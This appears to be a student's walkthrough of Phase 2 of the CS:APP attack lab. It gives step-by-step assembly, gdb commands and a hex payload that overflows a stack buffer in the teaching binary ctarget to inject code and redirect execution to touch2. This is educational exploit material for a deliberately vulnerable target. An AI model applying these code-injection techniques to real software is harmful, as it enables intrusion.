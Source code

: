 # PHASE 2

Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the ```rtarget_dump.s``` fil and search for touch2, it looks something like this:
```assembly
0000000000401945 <touch2>:
  401945:       48 83 ec 08             sub    $0x8,%rsp
  401949:       89 fa                   mov    %edi,%edx
  40194b:       c7 05 c7 3b 20 00 02    movl   $0x2,0x203bc7(%rip)        # 60551c <vlevel>
  401952:       00 00 00 
  401955:       39 3d c9 3b 20 00       cmp    %edi,0x203bc9(%rip)        # 605524 <cookie>
  40195b:       75 20                   jne    40197d <touch2+0x38>
  40195d:       be d0 34 40 00          mov    $0x4034d0,%esi
  401962:       bf 01 00 00 00          mov    $0x1,%edi
  401967:       b8 00 00 00 00          mov    $0x0,%eax
  40196c:       e8 8f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401971:       bf 02 00 00 00          mov    $0x2,%edi
  401976:       e8 77 05 00 00          callq  401ef2 <validate>
  40197b:       eb 1e                   jmp    40199b <touch2+0x56>
  40197d:       be f8 34 40 00          mov    $0x4034f8,%esi
  401982:       bf 01 00 00 00          mov    $0x1,%edi
  401987:       b8 00 00 00 00          mov    $0x0,%eax
  40198c:       e8 6f f4 ff ff          callq  400e00 <__printf_chk@plt>
  401991:       bf 02 00 00 00          mov    $0x2,%edi
  401996:       e8 33 06 00 00          callq  401fce <fail>
  40199b:       bf 00 00 00 00          mov    $0x0,%edi
  4019a0:       e8 ab f4 ff ff          callq  400e50 <exit@plt>
  ```
If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi."

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called ```phase2.s``` and write the below code, replacing the cookie with yours from the previous phase.
```assembly
  movq $0x3451d86d,%rdi /* move your cookie to register %rdi */
  retq                  /* return */
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```
Now open the file phase2.d and you will get something like below

```ssh
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 6d d8 51 34 	mov    $0x3451d86d,%rdi
   7:	c3                   	retq   
```
The byte representation of the assembly code is ```48 c7 c7 6d d8 51 34 c3``` => cookie.

Now we need to find the address of rsp register:

Run ctarget through gdb
```gdb ctarget```

set a breakpoint at getbuf
```b getbuf```

run ctarget
```r```

Dissasemble it
```disas```

You will get something like below:
```assembly
=> 0x0000000000401903 <+0>:	sub    $0x18,%rsp
   0x0000000000401907 <+4>:	mov    %rsp,%rdi
   0x000000000040190a <+7>:	callq  0x401b8d <Gets>
   0x000000000040190f <+12>:	mov    $0x1,%eax
   0x0000000000401914 <+17>:	add    $0x18,%rsp
   0x0000000000401918 <+21>:	retq   
End of assembler dump.
```
Now we need to run the code until the instruction just below ```callq 0x401ab6 <Gets>``` so you will run the following command to get to the addres of that instruction:

```until *0x40190f```

Then you will gwt the promt ```Type string:``` type a string longer than the buffer(24 characters in this case). 

```c
Type string: Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. 
```

After that do:
```assembly
x/s $rsp
```

You will get something like
```assembly
0x55617e98:	"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut a"...
```
The address on the left side is what we want => ```0x55617e98```.

Now, create a text file named ```phase2.txt``` which will look something like below and don't forget the bytes for rsp and touch2 go in reverse (little endian).

```
48 c7 c7 6d d8 51 34 c3 /*this sets your cookie*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
00 00 00 00 00 00 00 00 /*padding to make it 24 bytes*/
98 7e 61 55 00 00 00 00 /* address of register %rsp */
45 19 40 00 00 00 00 00 /*address of touch2 function */
````
Run it through ```hex2raw```

```./hex2raw < phase2.txt > raw-phase2.txt```

Finally, you run the raw file

```./ctarget < raw-phase2.txt```

What the exploit does is that first it sets register rdi to our cookie value is transferred to $rsp register so after we enter our string and getbuf tries to return control to the calling function, we want it to point to the rsp address so it will execute the code to set the cookie and finally we call touch2 after the cookie is set.

```ssh
Cookie: 0x3451d86d
Type string:Touch2!: You called touch2(0x3451d86d)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```




